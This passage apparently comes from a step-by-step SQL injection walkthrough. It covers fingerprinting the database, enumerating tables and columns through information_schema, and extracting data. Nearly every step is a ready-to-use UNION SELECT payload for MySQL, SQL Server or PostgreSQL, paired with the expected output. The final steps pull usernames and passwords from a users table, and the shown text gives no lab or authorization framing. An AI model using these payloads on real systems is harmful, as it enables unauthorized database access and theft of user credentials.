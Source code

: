 **Expected result:**
The letter **'A'** appears somewhere on the page only for columns that render output. Note these positions (e.g., columns 2 and 3).[5][6]

### Move 3: Fingerprint the Database

Use database-specific functions in printable columns:

**MySQL:**
```sql
' UNION SELECT database(),user(),version() --+
```

**Microsoft SQL Server:**
```sql
' UNION SELECT DB_NAME(),SYSTEM_USER,@@version --
```

**PostgreSQL:**
```sql
' UNION SELECT current_database(),current_user,version() --
```

**Expected result:**
The page displays database name, username, and version string (e.g., "shop_db", "dbuser@localhost", "MySQL 8.0.35").[5]

### Move 4: Enumerate Tables and Columns

**List all tables (MySQL):**
```sql
' UNION SELECT table_schema,table_name,3 FROM information_schema.tables --+
```

**List columns for a specific table:**
```sql
' UNION SELECT table_name,column_name,data_type FROM information_schema.columns WHERE table_name='users' --+
```

**Expected result:**
You see schema names, table names (e.g., "customers", "users", "orders"), and column names (e.g., "username", "password", "email").[4][5]

### Move 5: Extract Data

**If multiple printable columns:**
```sql
' UNION SELECT username,password,email FROM users --+
```

**If only one printable column, use concatenation:**

MySQL:
```sql
' UNION SELECT CONCAT(username,':',password),NULL,NULL FROM users --+
```

PostgreSQL:
```sql
' UNION SELECT username||':'||password,NULL,NULL FROM users --
```
